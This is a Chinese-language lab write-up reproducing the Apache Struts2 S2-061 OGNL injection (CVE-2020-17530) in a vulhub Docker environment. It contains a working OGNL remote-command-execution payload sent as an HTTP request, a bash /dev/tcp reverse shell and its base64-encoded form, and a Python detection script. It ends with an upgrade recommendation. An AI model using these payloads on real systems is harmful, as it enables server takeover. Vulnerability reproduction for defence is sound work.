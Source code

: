 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现

## 前言

Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大，S2-061是对S2-059漏洞修复后的绕过。

影响版本：

Apache Struts 2.0.0 - 2.5.25

## 环境搭建

这里使用vulhub漏洞环境搭建

使用git克隆到本地

`git clone https://github.com/vulhub/vulhub.git`

![image-20221210152107512](C:\Users\dong\Desktop\Books\CVE\发表过的\CVE-2020-17530\CVE-2020-17530\image-20221210152107512.png)

进入对应环境

`cd vulhub/struts2/s2-061`

![image-20221210152142885](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210152142885.png)

启动docker漏洞环境

`sudo docker-compose up -d`

![image-20221210152205091](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210152205091.png)

访问对应地址，出现如下页面，环境搭建成功

![image-20221210153856655](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210153856655.png)

## 复现过程

实现判断下是否存在漏洞，使用?id=%25{7*7}查看返回id的值是7\*7还是49，如果是47那么就说明进行了二次表达式解析，存在改漏洞

![image-20221210160031545](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210160031545.png)

这里id为49说明存在该漏洞。抓包修改为以下，这里的`#arglist.add("xx")`函数这里包含的值是你要执行的命令

```
POST /.action HTTP/1.1
Host: 192.168.52.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=node0i3sptalo62q6kw46qu49oxwn1.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 833

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"


%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![image-20221210161714309](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210161714309.png)



已经可以执行我们的命令了，接下来反弹shell

在vps上监听3333端口：`nc -lvnp 3333`

编写反弹shell代码

`bash -i >& /dev/tcp/192.168.52.130/3333 0>&1`

反弹shell涉及到管道符问题要将命令进行base64编码

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUyLjEzMC8zMzMzIDA+JjE=}|{base64,-d}|{bash,-i}`

![image-20221210163917170](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210163917170.png)

![image-20221210164523698](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210164523698.png)

成功反弹出shell

检查POC

```python
import requests
import argparse
import os
def url():
		parser = argparse.ArgumentParser(description='S2-061  CVE-2020-17530')
		parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.52.128:8080')
		args = parser.parse_args()
		global url
		url = args.target_url
		if url.startswith('http://') or url.startswith('https://'):
			pass
		else:
			print('请使用http://或者https://')
			os._exit(0)
		if url.endswith('/'):
			url = url[:-1]
		print("开始测试")
		return url
def poc():
	headers={
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100102 Firefox/107.0'
	
}
	vul_url = url + '/?id=%25{7*7}'
	try:
		text = requests.get(vul_url,headers=headers,timeout=10).text
		if '49' in text:
			print('[漏洞存在]')
		else:
			print('[漏洞不存在]')
	except:
		print('[发生错误]')
if __name__ == '__main__':
	url()
	poc()
```

![image-20221210170934924](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\image-20221210170934924.png)

## 修复建议

升级到 Struts 2.5.26 版本或更高版本



关注公众号【助安社区】渗透零基础到入门都在这，社区内部红队沙龙、资源共享和大厂工作经验。真正热爱安全和喜欢技术交流的小伙伴欢迎加入我们。

![](C:\Users\dong\Desktop\Books\CVE-2020-1938\CVE-2020-17530\CVE-2020-17530\84bc67fa02562af92b1b500ad9ee7f79.png)